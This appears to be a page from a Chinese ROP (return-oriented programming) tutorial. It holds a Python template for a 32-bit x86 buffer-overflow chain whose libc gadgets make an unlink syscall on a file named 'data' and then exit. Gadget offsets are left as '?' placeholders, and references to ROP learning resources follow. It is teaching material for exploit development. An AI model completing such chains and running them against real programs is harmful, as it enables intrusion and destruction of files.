 
版本2
```python
from struct import *

offset = 0xff

base_libcaddr = 0xffffffff
# Padding goes here
p = ''
p += offset * 'A'

p += pack('<I', ? + base_libcaddr) # pop edx ; ret
p += pack('<I', ? + base_libcaddr) # @ .data      .data is data segment
p += pack('<I', ? + base_libcaddr) # pop eax ; ret
p += 'data'
p += pack('<I', ? + base_libcaddr) # mov dword ptr [edx], eax ; ret

p += pack('<I', ? + base_libcaddr) # pop edx ; ret
p += pack('<I', ? + base_libcaddr) # @ .data + 4
p += pack('<I', ? + base_libcaddr) # xor eax, eax ; ret
p += pack('<I', ? + base_libcaddr) # mov dword ptr [edx], eax ; ret
p += pack('<I', ? + base_libcaddr) # pop ebx ; ret
p += pack('<I', ? + base_libcaddr) # @ .data

p += pack('<I', ? + base_libcaddr) # xor eax, eax ; ret
p += pack('<I', ? + base_libcaddr) # inc eax ; ret
p += pack('<I', ? + base_libcaddr) # inc eax ; ret
p += pack('<I', ? + base_libcaddr) # inc eax ; ret
p += pack('<I', ? + base_libcaddr) # inc eax ; ret
p += pack('<I', ? + base_libcaddr) # inc eax ; ret
p += pack('<I', ? + base_libcaddr) # inc eax ; ret
p += pack('<I', ? + base_libcaddr) # inc eax ; ret
p += pack('<I', ? + base_libcaddr) # inc eax ; ret
p += pack('<I', ? + base_libcaddr) # inc eax ; ret
p += pack('<I', ? + base_libcaddr) # inc eax ; ret

p += pack('<I', ?) # int 0x80 ; pop eax ; ret
p += pack('<I', 0xffffffff)

p += pack('<I', ? + base_libcaddr) # xor eax, eax ; ret
p += pack('<I', ? + base_libcaddr) # inc eax ; ret
p += pack('<I', ?) # int 0x80 ; pop eax ; ret
p += pack('<I', 0xffffffff)
print(p)

```

# Ref
[1] <https://yq.aliyun.com/articles/58699>
[2] <https://github.com/zhengmin1989/ROP_STEP_BY_STEP>
